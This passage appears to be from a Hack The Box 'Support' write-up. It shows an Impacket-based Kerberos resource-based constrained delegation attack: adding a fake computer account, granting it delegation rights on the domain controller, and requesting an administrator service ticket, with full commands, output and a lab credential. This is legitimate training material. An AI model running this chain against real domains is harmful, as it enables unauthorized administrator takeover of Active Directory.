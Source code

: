 These are all based on Rubeus uploaded to the box. I wanted to do it all from Kali so used [this](https://hakin9.org/rbcd-attack-kerberos-resource-based-constrained-delegation-attack-from-outside-using-impacket/)
 one which uses Impacket scripts for the entire attack path.

## Impacket AddComputer

First we need to add a fake computer:

```sh
┌──(root㉿kali)-[~]
└─# python3 /usr/share/doc/python3-impacket/examples/addcomputer.py -dc-ip 10.10.11.174 -computer-pass pencer -computer-name pencer support.htb/support:Ironside47pleasure40Watchful
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Successfully added machine account pencer$ with password pencer.
```

## Impacket RBCD

Next we use our GenericAll rights on the DC to set the **msds-allowedtoactonbehalfofotheridentity** security descriptor to our newly created computer:

```sh
┌──(root㉿kali)-[~]
└─# python3 /usr/share/doc/python3-impacket/examples/rbcd.py -action write -delegate-to "dc$" -delegate-from "pencer$" -dc-ip 10.10.11.174 support.htb/support:Ironside47pleasure40Watchful
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Accounts allowed to act on behalf of other identity:
[*]     Pepegaclap$   (S-1-5-21-1677581083-3380853377-188903654-5106)
[*] Delegation rights modified successfully!
[*] pencer$ can now impersonate users on dc$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     Pepegaclap$   (S-1-5-21-1677581083-3380853377-188903654-5106)
[*]     pencer$      (S-1-5-21-1677581083-3380853377-188903654-5104)
```

## Impacket getST

Now we take advantage of S4U2Self by impersonating the **administrator** user to request a service ticket:

```sh
┌──(root㉿kali)-[~/htb/support]
└─# python3 /usr/share/doc/python3-impacket/examples/getST.py support.htb/pencer$:pencer -spn www/dc.support.htb -impersonate administrator
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```
